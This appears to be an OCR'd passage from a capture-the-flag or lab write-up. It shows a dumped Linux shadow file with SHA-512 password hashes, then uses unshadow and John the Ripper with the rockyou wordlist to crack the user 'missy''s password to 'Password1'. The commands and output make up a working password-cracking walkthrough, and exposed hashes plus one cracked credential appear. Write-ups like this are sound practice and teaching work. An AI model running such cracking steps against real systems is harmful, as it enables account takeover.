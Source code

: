 ```
apache:!!:18785::::::
qemu:!!:18785::::::
ntp:!!:18785::::::
tss:!!:18785::::::
sssd:!!:18785::::::
usbmuxd:!!:18785::::::
geoclue:!!:18785::::::
gdm:!!:18785::::::
rpcuser:!!:18785::::::
nfsnobody:!!:18785::::::
gnome-initial-setup:!!:18785::::::
pcp:!!:18785::::::
sshd:!!:18785::::::
avahi:!!:18785::::::
oprofile:!!:18785::::::
tcpdump:!!:18785::::::
leonard:$6$JELumeiiJFPMFj3X$OXKY.N8LDHHTtF5Q/pTCsWbZtO6SfAzEQ6UkeFJy.Kx5C9rXFuPr.8n3v7TbZEttkGKCVj50KavJNAm7ZjRi4/::0:99999:7:::
mailnull:!!:18785::::::
smmsp:!!:18785::::::
nscd:!!:18785::::::
missy:$6$BjOlWE21$HwuDvV1iSiySCNpA3Z9LxkxQEqUAdZvObTxJxMoCp/9zRVCi6/zrlMlAQPAxfwaD2JCUypk4HaNzI3rPVqKHb/:18785:0:99999:7:::
```

### Copying into `passwd.txt` and `shadow.txt`
`cat passwd.txt`
```
missy:x:1001:1001::/home/missy:/bin/bash
```
`cat shadow.txt`
```
missy:$6$BjOlWE21$HwuDvV1iSiySCNpA3Z9LxkxQEqUAdZvObTxJxMoCp/9zRVCi6/zrlMlAQPAxfwaD2JCUypk4HaNzI3rPVqKHb/:18785:0:99999:7:::
```

### Unshadowing
`unshadow passwd.txt shadow.txt > unshadow`

`cat unshadow`
```
missy:$6$BjOlWE21$HwuDvV1iSiySCNpA3Z9LxkxQEqUAdZvObTxJxMoCp/9zRVCi6/zrlMlAQPAxfwaD2JCUypk4HaNzI3rPVqKHb/:1001:1001::/home/missy:/bin/bash
```

### Cracking the Hash with John the Ripper

`sudo john --wordlist=/opt/wordlist/passwords/rockyou.txt unshadow`
```
Loaded 1 password hash (crypt, generic crypt(3) [?/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Password1        (missy)
1g 0:00:00:02 100% 0.5000g/s 1776p/s 1776c/s 1776C/s girls..01234
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
